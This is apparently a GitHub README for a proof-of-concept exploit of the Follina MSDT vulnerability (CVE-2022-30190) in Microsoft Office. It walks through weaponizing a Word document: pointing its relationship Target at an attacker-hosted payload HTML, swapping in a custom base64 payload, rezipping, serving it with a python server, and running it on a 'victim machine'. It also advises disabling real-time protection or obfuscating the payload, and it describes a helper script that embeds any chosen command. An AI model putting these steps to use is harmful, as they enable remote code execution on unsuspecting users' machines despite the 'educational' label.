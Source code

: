 # POC-msdt-follina

OK, as you know, or don't know, CVE-2022-30190 vulnerability can be described as like an attacker makes some MS Office, puts inside it's structure some link ( html ), and with the help of that, he manage run a malicious code. OLE object (word/_rels/document.xml.rels)
<br>
Data phat puts inside, may describe link in the tags with attributes "TYPE=" and "Target=". Link at the target attribute takes to the HTML, which in our case is our PAYLOAD, so that triggers the MSDT protocol. For example -- > "Target="http://Server-Host-Payload/Payload.html".

Now, when opened, the attacker document start to run, and trigger the MSDT.
The document can run even in ProtectedMode, and more - You dont even need macros enabled.

You can Modifiy the Payload at www, and insert what ever you want, just to check it on your victim machine.
For example --- > After edit the file with Gedit, at [char]34+'[Some/Base64/Syntax/', you can replace it with another Payload of yours.


This Document is already put together, just for the POC, so all you have to change is the Payload script, which in our case is the 'index.html' site, which holds inside of it a '<script>' tags that stored our Payload, and secondly, at /doc/word/_rels directory, there is a file named 'document.xml.rels. Edit it, and replace the '{YourServerHere}' with yours.

  
 After made all of that, just rezip the doc file, you can use 7-zip of whatever you like, open a python server, and good luck. Was Tested on  Microsoft Office Document 2007 with no problems, tell me if you managed to get it work on new versions.
  
  For now, dont forget to de-active the real time protection/firewall, else you can obfuscate your PAYLOAD, but for this is all for now.
  # Educational Purpose Only!
  ![POC-test](https://user-images.githubusercontent.com/90532971/172916363-51b0b457-fb9a-44a2-994d-0f396c07e547.gif)

  # Usage
  Made a little py script which can help for these who have a little trouble.
  1. Put your local machine ip, with 'http' where the payload is, for example: http://Server:Port/Pay.html
  2. choose a command to be executed, for example: "notepad" or using ps scripts.
*Notice: When running the py script, you cannot run it again on the same 'www' directory and 'doc'.
  if you want to use it again, copy the  inside 'BackUp' directory again, and run the py again.
  
